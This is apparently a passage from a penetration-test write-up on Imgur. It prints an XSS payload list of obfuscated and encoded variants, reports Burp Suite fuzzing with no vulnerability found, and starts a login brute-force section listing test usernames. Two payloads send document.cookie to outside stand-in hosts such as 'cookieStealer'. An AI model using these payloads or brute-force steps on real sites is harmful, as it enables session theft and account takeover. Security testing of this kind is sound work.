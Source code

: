 ```javascript
<IMG%20SRC="javascript:alert('WXSS')"
<IMG%20SRC=javascript:alert('WXSS')>
<IMG%20SRC=JaVaScRiPt:alert('WXSS')>
<IMG%20SRC=javascript:alert(&quot;WXSS&quot;)>
<IMG%20SRC=`javascript:alert("'WXSS'")`>
<IMG%20"""><SCRIPT>alert("WXSS")</SCRIPT>">
<IMG%20SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG%20SRC='javasc  ript:alert(document.cookie)'>
<IMG%20SRC="jav ascript:alert('WXSS');">
<IMG%20SRC="jav&#x09;ascript:alert('WXSS');">
<IMG%20SRC="jav&#x0A;ascript:alert('WXSS');">
<IMG%20SRC="jav&#x0D;ascript:alert('WXSS');">
<IMG%20SRC="%20&#14;%20javascript:alert('WXSS');">
<IMG%20DYNSRC="javascript:alert('WXSS')">
<IMG%20LOWSRC="javascript:alert('WXSS')">
<IMG%20SRC='%26%23x6a;avasc%26%23000010ript:a%26%23x6c;ert(document.%26%23x63;ookie)'>
<IMG%20SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG%20SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG%20SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
'%3CIFRAME%20SRC=javascript:alert(%2527XSS%2527)%3E%3C/IFRAME%3E
"><script>document.location='http://cookieStealer/cgi-bin/cookie.cgi?'+document.cookie</script>
%22%3E%3Cscript%3Edocument%2Elocation%3D%27http%3A%2F%2Fyour%2Esite%2Ecom%2Fcgi%2Dbin%2Fcookie%2Ecgi%3F%27%20%2Bdocument%2Ecookie%3C%2Fscript%3E
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//></SCRIPT>!--<SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>=&{}
'';!--"<XSS>=&{()}
```
- burpsuite sniper attack was established to test the 'q_type' parametr
![XSS burpsuite payload](https://i.imgur.com/lafkLqE.png)
- one more payload list also used from [GitHub - ismailtasdelen](https://github.com/ismailtasdelen/xss-payload-list)
- After analyzing responses we have not discovered any proof of true xss vulnerablity while searching for all of tree xss types from above.
- **Imgurs advanced search functions seems durable to the XSS.**
- **Imgur profile settings fields were also tested for XSS with above test with no vulnerable outcomes. - imgur.com/account/settings**
- **Video to gif function was also tested for XSS with above test with no vulnerable outcomes. - imgur.com/vidgif**
- **Imgur login/register forms were also tested for XSS with above test with no vulnerable outcomes.**


## 6. User security / Authentication bypass
- In this section, we'll slightly focus on individual user security. 
- We've tried some lighter bruteforcing attack at the login page using once again burpsuite payloads.
- There could be many possible combinations of most used passwords and common usernames.
- Let's just test the login process security using only a few credentials. 
- The first two usernames are invalid, the third one is valid.
- Same with the passwords.
```html
Usernames:

DuffelKerfuffle
HenryOfSkalitz
ehatest

```